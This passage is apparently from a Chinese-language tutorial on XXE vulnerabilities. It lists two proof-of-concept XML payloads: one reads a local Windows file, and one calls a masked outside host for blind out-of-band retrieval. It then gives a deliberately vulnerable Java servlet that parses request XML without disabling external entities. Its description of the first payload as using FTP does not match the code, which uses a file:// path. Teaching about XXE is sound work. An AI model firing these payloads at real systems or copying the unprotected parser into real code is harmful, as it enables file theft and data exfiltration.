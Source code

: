

## 5.常用poc

**POC1-外部普通实体**

​    当有回显时，利用ftp协议读取文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lltest[
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]> 
<user><username>&xxe;</username><password>123456</password></user>
```

**POC2-外部参数实体**

无回显时 利用http协议来发起请求

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note[ 
<!ENTITY % lltest SYSTEM "http://***.***.***.***:7777/lltest_xxe666">
%lltest;
]>
```

**XXE漏洞代码示例**

解析XML的方法越来越多，常见有四种，即：[DOM](http://www.liuhaihua.cn/archives/tag/dom)、DOM4J、JDOM 和SAX。下面以这四种为例展示XXE漏洞。 

1）DOM Read XML

```java
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {      
        String result="";
        try {
            //DOM Read XML
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();     
            DocumentBuilder db = dbf.newDocumentBuilder();                  
            Document doc = db.parse(request.getInputStream());

            String username = getValueByTagName(doc,"username");
            String password = getValueByTagName(doc,"password");
            if(username.equals(USERNAME) && password.equals(PASSWORD)){
                result = String.format("<result><code>%d</code><msg>%s</msg></result>",1,username);
            }else{
                result = String.format("<result><code>%d</code><msg>%s</msg></result>",0,username);
            }
        } catch (ParserConfigurationException e) {
            e.printStackTrace();
            result = String.format("<result><code>%d</code><msg>%s</msg></result>",3,e.getMessage());
        } catch (SAXException e) {
            e.printStackTrace();
            result = String.format("<result><code>%d</code><msg>%s</msg></result>",3,e.getMessage());
        }
        response.setContentType("text/xml;charset=UTF-8");
        response.getWriter().append(result);
    }
```
